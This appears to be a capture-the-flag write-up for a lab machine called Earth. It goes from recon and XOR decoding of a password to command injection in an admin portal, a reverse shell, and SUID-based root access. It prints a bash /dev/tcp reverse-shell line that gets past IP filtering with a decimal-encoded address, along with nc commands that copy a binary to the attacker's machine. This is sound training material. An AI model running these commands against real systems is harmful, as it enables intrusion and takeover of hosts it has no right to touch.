 Initial nmap scan shows ports
    22
    80 - runs a web server
    443

Some dns records which we add to our /etc/hosts
    earth.local
    terratest.earth.local

found robots.txt in https://terratest.earth.local/robots.txt

A file name
    /testingnotes.*
    some file extensions are also included

Found a username for admin portal in testingnotes.txt
    username : terra
    password :

"Using XOR encryption as the algorithm" gives us a hint of the encrypted messages on earth.local
A file textdata.txt is also found and it contains plain message i.e 'Test encryption' as notes say.

We decode the message from hex then from XOR using the testdata.txt as the key...
    We get ```earthclimatechangebad4humans``` we assume it is the password.

Running dirsearch to find the path to admin portal...
    http://earth.local/admin

Looks like a cli interface... Lets try command injection
After a few enum, we cant do much as a user apache
Remote urls are filterd when i tried to ping my machine, lest encode to sth like binary or decimal
    Using cyberchef
    192.168.43.94 - 3232246622

    'bash -i >& /dev/tcp/3232246622/4444 0>&1'
Throw that to the input and listen to port 4444
    nc -nlvp 4444

Enum and we find a certain suid binary - lets cp to our machine and inspect it further
    bash$ nc -w 3 192.168.56.1 4445 < reset_root
    root@kali~: nc -lnvp 4445 > reset_root

running strings to the file shows sth about resetting root password to 'Earth' on some conditions.
Enough googling I stubbled upon ltrace which records library calls
    root@kali~: ltrace ./root_reset

several things popped, the conditions some files that were needed for the reset_root to execute
I created the files...
Then execute the reset_root and the pass was changed.
    su root
    cat root_flag.txt
    [root_flag_b0da9554d29db2117b02aa8b66ec492e]
